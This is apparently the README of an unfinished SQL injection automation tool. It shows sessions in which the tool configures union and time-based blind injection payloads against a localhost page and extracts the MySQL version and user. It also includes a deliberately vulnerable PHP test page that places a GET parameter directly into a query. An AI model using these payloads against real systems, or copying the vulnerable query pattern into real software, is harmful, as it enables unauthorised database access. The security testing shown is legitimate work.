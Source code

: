 This is a work in progress.

Features
========

* automatic blind / union sql injection configuration 
* use cache to reduce traffic and allow offline replays
* CLI with some SQL-like commands

TODO 
====

* robust blind injections calibration
* refactorize SQL generation 

Example usage
=============

Typical union injection
-----------------------


    $ python proto2.py
    WARNING - No proxy
    > set url_format http://localhost/www.tmp/sql.php?i=%s
    localhost> configure
    INFO - Sucessfully configured
    INFO - Config union_injection_format = '0 UNION (%s) #'
    INFO - Config column_index = 0
    INFO - Config columns = 19
    localhost> help
    ...

Blind SQL injections
--------------------

    $ python proto2.py --url http://127.0.0.1/www.tmp/sql.php?i=%s --no-proxy --proxy "" --mode blind
    WARNING - No proxy
    127.0.0.1> configure
    INFO - Launching autoconfiguration
    WARNING - Disabling cache and setting random urls
    WARNING - No proxy
    INFO - Checking injections
    INFO - Injection found
    INFO - Mean: 0.006, dev: 0.050
    INFO - Calibrating
    INFO - Fine tuning
    INFO - High: 1.000
    INFO - Optimizing timing
    INFO - Sucessfully configured
    INFO - Config blind_injection_format = '1 AND (%s)'
    INFO - Config blind_sleep_format = '%s AND SLEEP(%.2f)'
    INFO - Config blind_time_sleep = 0.005859375
    INFO - Config blind_time_low = 0.0055620670318603516
    INFO - Config blind_time_high = 0.060056871838039823
    INFO - Config blind_time_confidence = 0.050000000000000003
    127.0.0.1> probe
    INFO - MySQL Version: ['5.0.67-1-log']
    INFO - MySQL user: ['test@localhost']

Misc
----

sql.php 

    <?
    if ($_SERVER['REMOTE_ADDR']!="127.0.0.1") die("");
    if ($_GET['rand']) echo rand();
    mysql_connect("localhost", "test");
    $i = $_GET['i'];
    if ((int)$i<100) {
	    //$query = "select * from information_schema.columns limit $i,1";
	    $query = "select * from information_schema.columns where  ordinal_position = $i";
	    file_put_contents("/tmp/queries", "$query\n", FILE_APPEND);
	    #echo "<pre>$query</pre>";
	    $result = mysql_query($query) or die("error");
	    echo "<h1>Results:</h1>";
	    while($row = mysql_fetch_array($result)){
		    echo "<p>$row[0]:$row[1]</p>";
	    }
    }
    ?>

